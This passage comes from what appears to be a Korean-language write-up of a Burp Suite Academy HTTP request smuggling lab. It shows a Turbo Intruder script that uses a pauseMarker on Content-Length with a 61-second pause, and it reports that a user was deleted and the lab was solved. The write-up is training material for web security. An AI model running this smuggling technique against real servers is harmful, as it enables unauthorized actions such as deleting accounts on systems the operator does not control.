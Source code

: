 Turbo Intruder가 스머글링 요청에서도 Pause되는 것을 막기 위해 pauseMaker의 값을 `Content-Length: 159\r\n\r\n`로 변경한다. 이렇게 하면 처음 요청에서만 puase될 것이다.

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['Content-Length: 159\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

10. 값을 보내본다. 61초기다리면, 유저가 삭제되었다는 302응답이 확인된다. 

![](/images/burp-academy-hrs-21-9.png)

문제가 풀렸다는 메세지가 출력된다. 

![](/images/burp-academy-hrs-21-success.png)